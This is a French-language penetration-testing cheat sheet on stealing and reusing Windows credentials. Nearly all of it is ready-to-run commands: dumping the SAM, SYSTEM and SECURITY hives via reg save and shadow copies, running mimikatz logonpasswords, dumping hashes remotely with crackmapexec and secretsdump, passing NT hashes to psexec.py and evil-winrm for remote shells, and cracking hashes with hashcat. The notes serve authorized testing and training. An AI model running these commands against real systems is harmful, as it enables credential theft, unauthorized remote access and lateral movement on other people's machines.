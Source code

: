 ```yaml
---
public: true
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

Création d'un cliché instantané si besoin

```shell
wmic shadowcopy call create Volume="C:\"
```

Liste des clichés disponibles

```shell
vssadmin.exe list shadows # Noter la ligne 'Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3'

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
mimikatz.exe "privilege::debug; sekurlsa::logonpasswords; exit" >> mimikatz_output.txt
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
